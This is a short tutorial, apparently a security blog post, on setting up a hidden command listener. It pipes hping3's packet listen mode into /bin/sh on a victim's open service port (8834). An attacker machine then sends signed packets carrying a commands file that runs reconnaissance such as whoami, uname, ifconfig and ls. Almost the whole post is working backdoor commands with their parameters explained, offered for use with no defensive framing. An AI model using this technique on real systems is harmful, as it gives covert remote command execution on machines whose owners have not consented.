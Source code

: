 ```yaml
---
title:  "Hidden Command Listener"
categories: [Steganography]
---
```


![Logo](/assets/images/backdoor.jpg)

## Create a hidden command listener by reusing an open port

### Scenario:
* **Box A** - Victim, running a network service on port 8834. We'll reuse this port!
* **Box B** - Attacker host behind NAT. Will transmit commands to the listener waiting on the victim.

This is similar to a reverse shell from box A to box B, except that B will need another way to view results of the commands executed on A:

**A (Victim's box)**:
```bash
$ sudo hping3 --listen SecretSignature -I vboxnet0 -p 8834 | /bin/sh
```

Explanation for the parameters:
```
--listen  - Listen mode. Waits for packets containing the signature and dump the data from signature to the end of the packet 
-I        - Interface to listen on
-p        - Listening port
```

This will intercept packets and dump the content after a matching signature. Commands will be passed to the shell to be executed. Another trick would be needed to view the output of the commands though.

**B (Attacker's box**: 
```bash
$ sudo hping3 --count 1 --data 200 --file commands.txt --sign SecretSignature 192.168.56.1 -V -p 8834
```

Explanation for the parameters:
```
--count 1   - Stop after sending 1 packet
--data 200  - Set packet body size in bytes
--file      - Fill packet with data from file
--sign      - Fill first a signature in the packet
-V          - Verbose mode
-p          - Destination port
```

The content of the commands file:
```bash
$ cat commands.txt
echo 123 > hacked.txt
whoami > log.txt
uname -a >> log.txt
pwd >> log.txt
ls -al >> log.txt
ifconfig -a >> log.txt

```

The commands should have been executed on victim's machine (A) and results saved in the corresponding log file.

<div class="box-note">
The new line at the end of the commands file is important to get the last line executed!
</div>
